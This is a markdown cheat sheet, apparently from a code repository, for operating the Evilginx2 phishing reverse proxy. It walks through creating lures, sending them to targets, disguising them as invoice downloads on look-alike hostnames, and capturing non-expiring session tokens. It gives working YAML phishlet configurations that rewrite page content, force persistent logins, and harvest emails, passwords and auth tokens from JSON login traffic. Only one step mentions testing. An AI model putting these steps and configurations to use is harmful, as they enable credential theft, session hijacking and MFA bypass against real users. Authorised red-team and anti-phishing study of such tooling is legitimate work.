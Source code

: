 # Evilginx CheatSheet

1. Clone the git repo of [evilginx](https://github.com/kgretzky/evilginx2).

2. Configure [phishlets](https://github.com/kgretzky/evilginx2/blob/master/phishlets/example.yaml). Sample in link, amazing YAML ease of use.

3. Once the phishlets are configured, open Evilginx and you will see the phishlet. Then configure the domain and IP.
    ![with phishlet I created](image.png)

4. You can get help like `help <keyword>`.

5. Set the hostname which should end with the domain you created when configuring the domain and IP, like `same.dummy.com`.

6. Set the hosts file entry if in local.

7. Set the lure up. Create a lure using `lures create <phishlet>`. The rest of it `help lures` gives the manual.

8. Once you get the lure URL, either send it to someone you want to phish or try the URL if you are testing it out.

9. The session will be captured. Make sure to add the modifier `always` to capture the session token without an expiry date. You can use `sessions` to list sessions, and `sessions <id>` to list the details of the session.

10. You can personalize the lures. Example of sending the lure as an invoice download: `lures edit 0 path /download/invoice/5465/`. You can change the hostname of the URL by `lures edit 0 hostname this.is.a.real.website.fake.com`.

11. You can use custom parameters in lures like `lures get-url 0 email=abhishek@gmail.com name="Abhishek Narasimhan"`. Every time the URL parameter would be different and will be difficult to find.

12. Replacing content on the fly is amazing. Example: changing the "Login" button to anything you want it to be by updating the sub-filters in the YAML file. Example:
     ```yaml
     sub_filters:
        - {triggers_on: 'dummy.dum.evilginx.com', orig_sub: 'akira', domain: 'dum.evilginx.com', search: '" Login "', replace: '" Get Phished! "', mimes: ['text/javascript']}
     ```

13. Forcing POST parameters, for example, to keep the user logged in even if they did not select the option. Example configuration in YAML file:
    ```yaml
    path: '/api/v1/auth/login'
    search: 
      - {key: 'email', search: '.*'}
      - {key: 'password', search: '.*'}
    force:
      - {key: 'remember_me', value: '1'}
    type: 'post'
    ```

14. No session token. What can be done? Format sent in JSON. The credential setting to check in JSON format is different.
    * There are instances where MFA is not enabled and the token will be present in the login endpoint.
    * Example in YAML:
    ```yaml
    auth_tokens:
      - domain: 'bladerunner.lab.evilginx.com'
        path: '/api/v1/auth/.*'
        name: 'token'
        search: '"token":"([^"]*)"'
        type: 'body'
    credentials:
      username:
        key: ''
        search: '"email":"([^"]*)"'
        type: 'json'
      password:
        key: ''
        search: '"password":"([^"]*)"'
        type: 'json'
    ```

